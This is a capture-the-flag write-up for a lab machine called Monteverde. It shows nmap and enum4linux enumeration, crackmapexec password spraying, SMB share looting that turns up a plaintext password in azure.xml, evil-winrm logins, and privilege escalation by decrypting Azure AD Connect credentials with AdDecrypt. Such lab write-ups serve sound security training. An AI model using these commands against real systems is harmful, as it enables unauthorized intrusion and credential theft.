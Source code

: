 # Monteverde

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 -Pn 10.129.228.111
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 03:03 EDT
Nmap scan report for 10.129.228.111
Host is up (0.0092s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49676/tcp open  unknown
49697/tcp open  unknown
```

### Username List --> User Creds

With `enum4linux` and null credentials, we can enumerate the possible users and the domain name:

```
$ enum4linux -u '' -p '' -a 10.129.228.111
Group: 'Operations' (RID: 2609) has member: MEGABANK\smorgan                                 
Group: 'Trading' (RID: 2610) has member: MEGABANK\dgalanos
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\Administrator
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\AAD_987d7f2f57d2
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\mhope
Group: 'Domain Users' (RID: 513) has member: MEGABANK\Administrator
Group: 'Domain Users' (RID: 513) has member: MEGABANK\krbtgt
Group: 'Domain Users' (RID: 513) has member: MEGABANK\AAD_987d7f2f57d2
Group: 'Domain Users' (RID: 513) has member: MEGABANK\mhope
Group: 'Domain Users' (RID: 513) has member: MEGABANK\SABatchJobs
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-ata
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-bexec
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-netapp
Group: 'Domain Users' (RID: 513) has member: MEGABANK\dgalanos
Group: 'Domain Users' (RID: 513) has member: MEGABANK\roleary
Group: 'Domain Users' (RID: 513) has member: MEGABANK\smorgan
Group: 'Group Policy Creator Owners' (RID: 520) has member: MEGABANK\Administrator
Group: 'HelpDesk' (RID: 2611) has member: MEGABANK\roleary
Group: 'Domain Guests' (RID: 514) has member: MEGABANK\Guest

guest
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
AAD_987d7f2f57d2
Administrator
krbtgt
```

We can get a list of usernames here. I tried ASREP-Roasting, but nothing came of it. We can also check if any user has their password as their username with `cracpmapexec`, which returns something interesting:

```
$ crackmapexec smb 10.129.228.111 -u users -p users 2> /dev/null
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
<TRUNCATED>
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
```

Seems that we have access to one user. When we enumerate the shares, we can see that we have access to the `users` and `azure_uploads` files. The latter has nothing in it, but the `users` file has loads of files:

```
$ smbclient -U "SABatchJobs" //10.129.228.111/users$
Password for [WORKGROUP\SABatchJobs]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020
smb: \> cd mhope
smb: \mhope\> ls
  .                                   D        0  Fri Jan  3 08:41:18 2020
  ..                                  D        0  Fri Jan  3 08:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 08:40:23 2020
```

We can see that there's an `azure.xml` file here. It contains a user credential:

```markup
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

I also noticed that this uses Azure to do stuff, so let's keep that in mind for now. Anyways, we can login via `evil-winrm` with `mhope` and this password.&#x20;

<figure><img src="../../../.gitbook/assets/image (19) (5).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Azure Admins + Azure Connect

When we view our groups within the domain, we see that `mhope` is part of the Azure Admins group:

```
*Evil-WinRM* PS C:\Users\mhope\Documents> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 4:40:05 PM
Password expires             Never
Password changeable          1/3/2020 4:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory               \\monteverde\users$\mhope
Last logon                   5/5/2023 12:16:08 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users
The command completed successfully.
```

Within the `C:\Program Files` directory, there are also some files pertaining to Azure:

```
*Evil-WinRM* PS C:\Program Files> dir
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

I googled on how to exploit these services. After some trial and error, I stumbled on this:

{% embed url="https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/" %}

Since Azure AD Connect was present, it means that there's a database of which the credentials are being stored. As Azure Admins, we probably have access to these passwords, which can be enumerated and decrypted.

{% embed url="https://github.com/VbScrub/AdSyncDecrypt/releases" %}

We just need to transfer the `AdDecrypt.exe` file along with `mcrypt.dll` to the machine. Then, following the PoC, we need to run this within `C:\Program Files\Microsoft Azure AD Sync\Bin`.&#x20;

<figure><img src="../../../.gitbook/assets/image (39) (9).png" alt=""><figcaption></figcaption></figure>

Then, using this password, we can login via `evil-winrm`.

<figure><img src="../../../.gitbook/assets/image (68) (5).png" alt=""><figcaption></figcaption></figure>

Rooted!
